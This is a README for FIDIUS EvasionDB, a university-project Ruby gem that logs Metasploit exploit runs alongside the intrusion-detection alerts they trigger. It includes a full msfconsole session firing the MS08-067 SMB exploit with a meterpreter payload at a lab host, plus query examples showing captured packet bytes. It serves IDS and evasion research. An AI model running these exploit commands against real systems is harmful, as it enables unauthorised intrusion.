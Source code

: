 # FIDIUS EvasionDB

The FIDIUS EvasionDB Gem provides a database which contains knowledge about metasploit exploits
and their corresponding alerts/events produced by intrusion detection systems (IDS). It includes a
Metasploit plugin which supports the recording of thrown alerts during the execution of an exploit.

## Description

This gem is developed in the context of the students project "FIDIUS" at the
University of Bremen, for more information about FIDIUS visit [fidius.me](http://fidius.me/en).

## Installation

Simply install this package with Rubygems:

    $ gem install fidius-evasiondb

Then switch to the root directory of your Metasploit installation and run

    $ fidius-evasiondb -c

Follow the instructions. 

This Gem currently uses 2 databases:

 * `ids_db`: A Prelude Manager database for fetching IDMEF events.
 * `evasion_db`: Knowledge database for information about exploits and their IDMEF events.

Please note: The Evasion-DB Gem has only been tested with Linux systems and might not work with Windows.

## Configuration

The database configuration can be found in

    path/to/your/metasploit/root/data/database.yml 

It has been tested with PostgreSQL and MySQL databases but should work for others, too.

## Usage

There are two possibilities to use this Gem, either inside the Metasploit console (with a plugin) or
from external scripts by requiring the Gem. The first method (use in `msfconsole`) is intended to
generate knowledge about exploits. You can execute any module within metasploit and log
corresponding IDMEF events. 

Please note: Currently it is only possible to fetch IDMEF events from an existing and configured
Prelude Manager database. At the beginning of a module execution, the timestamp and number of total
events in prelude are measured. After the module is finished newly generated events are identified
via timestamp and the attackers source IP address.

### In MSF console

Example for monitoring an exploit. After loading the plugin all modules which are executed by
metasploit will be monitored. All payload which is send to the target will be stored in the
Knowledge database. After executing of the module finished generated IDMEF events will be fetched
from the Prelude database and stored to the Knowledge database, too.
  
    $ msf > load evasiondb
    $ [*] EvasionDB plugin loaded.
    $ [*] Successfully loaded plugin: FIDIUS-EvasionDB
    $ msf > use exploit/windows/smb/ms08_067_netapi
    $ msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/bind_tcp
    $ PAYLOAD => windows/meterpreter/bind_tcp
    $ msf exploit(ms08_067_netapi) > set RHOST 10.20.20.1
    $ RHOST => 10.20.20.1
    $ msf exploit(ms08_067_netapi) > exploit
    $ [*] Started bind handler
    $ [*] Automatically detecting the target...
    $ [*] Fingerprint: Windows XP - Service Pack 2 - lang:German
    $ [*] Selected Target: Windows XP SP2 German (NX)
    $ [*] Attempting to trigger the vulnerability...
    $ [*] Sending stage (749056 bytes) to 10.20.20.1
    $ [*] Meterpreter session 1 opened (10.0.0.100:52764 -> 10.20.20.1:4444) at 2011-03-28 16:42:53 +0200
    $ meterpreter > exit
    $ [*] Meterpreter session 1 closed.  Reason: User exit
    $ msf exploit(ms08_067_netapi) > show_events
    $ ------------------------------------------------------------
    $ exploit/windows/smb/ms08_067_netapi with 47 options
    $ ------------------------------------------------------------
    $ 11 idmef-events fetched
    $ ------------------------------------------------------------
    $ (1)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
    $ (2)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
    $ (3)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
    $ (4)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
    $ (5)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
    $ (6)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
    $ (7)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
    $ (8)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
    $ (9)ET EXPLOIT x86 JmpCallAdditive Encoder with 759 bytes payload
    $ (10)ET EXPLOIT x86 JmpCallAdditive Encoder with 467 bytes payload
    $ (11)NETBIOS SMB-DS IPC$ share access with 72 bytes payload
    $ msf exploit(ms08_067_netapi) > 

### From external scripts or IRb

From external scripts or inside IRb, there are only queries to the Evasion DB possible.
The usage is quite simple.

Just `require 'fidius-evasion'` in your script and call 

    FIDIUS::EvasionDB.config 'path/to/your/database.yml'

This will connect to the database and give you the possibility to use one of the query methods below. 

### Queries

Sample how the knowledge in EvasionDB can be queried:

    ruby-1.9.1-p378 > require 'fidius-evasiondb'
    => true 
    ruby-1.9.1-p378 > FIDIUS::EvasionDB.config "data/database.yml"
    ruby-1.9.1-p378 > events = FIDIUS::EvasionDB::Knowledge.find_events_for_exploit "exploit/windows/smb/ms08_067_netapi"
    ruby-1.9.1-p378 > events.size
    => 11 
    ruby-1.9.1-p378 > events.first.severity
    => "medium" 
    ruby-1.9.1-p378 > events.first.text
    => "COMMUNITY SIP TCP/IP message flooding directed to SIP proxy" 

### Find an Exploit

    ruby-1.9.1-p378 > m = FIDIUS::EvasionDB::Knowledge::AttackModule.first
    => #<FIDIUS::EvasionDB::Knowledge::AttackModule id: 1, name: "exploit/windows/smb/ms08_067_netapi", options_hash: "4d70ba1e95523e6d602e316a2553decf", finished: true, created_at: "2011-04-02 13:43:44", updated_at: "2011-04-02 13:45:05">

### Find IdmefEvents

    ruby-1.9.1-p378 > event = m.idmef_events.first
    => #<FIDIUS::EvasionDB::Knowledge::IdmefEvent id: 1, attack_module_id: 1, attack_payload_id: nil, payload: "wrong lookup type\x00\x00\x00unsupported algorithm\x00\x00\x00unknown...", detect_time: "2011-04-02 13:44:30", dest_ip: "10.20.20.1", src_ip: "10.0.0.100", dest_port: 4444, src_port: 45944, text: "COMMUNITY SIP TCP/IP message flooding directed to S...", severity: "medium", analyzer_model: "prelude-manager", ident: 1076676, created_at: "2011-04-02 13:45:03", updated_at: "2011-04-02 13:45:05"> 

### Find Packets

    ruby-1.9.1-p378 > m.packets.first
    => #<FIDIUS::EvasionDB::Knowledge::Packet id: 1, attack_module_id: 1, attack_payload_id: nil, src_addr: "0.0.0.0", dest_addr: "10.20.20.1", src_port: "0", dest_port: "445", payload: "\x00\x00\x00T\xFFSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCD\x11\x00\x00\xB2|\x001\x00\x02LANMAN1.0\x00\x02...", created_at: "2011-04-02 13:43:47", updated_at: "2011-04-02 13:43:47"> 

### Find Payload of Packet

    ruby-1.9.1-p378 > m.packets.first.payload
    => "\x00\x00\x00T\xFFSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCD\x11\x00\x00\xB2|\x001\x00\x02LANMAN1.0\x00\x02LM1.2X002\x00\x02NT LANMAN 1.0\x00\x02NT LM 0.12\x00" 


### Find Options of Exploit

    ruby-1.9.1-p378 > m.attack_options.first.option_key
    => "EXITFUNC" 
    ruby-1.9.1-p378 > m.attack_options.first.option_value
    => "thread" 

## Authors and Contact

fidius-evasiondb was written by

* FIDIUS Intrusion Detection with Intelligent User Support
  <grp-fidius+evasiondb@tzi.de>, <http://fidius.me>
* in particular:
 * Bernhard Katzmarski <bkatzm+evasiondb@tzi.de>
 * Jens Färber <jfaerber+evasiondb@tzi.de>

If you have any questions, remarks, suggestion, improvements, etc. feel free to drop a line at the 
addresses given above. You might also join `#fidius` on Freenode or use the contact form on our
[website](http://fidius.me/en/contact).


## License

Simplified BSD License and GNU GPLv2. See also the file LICENSE.
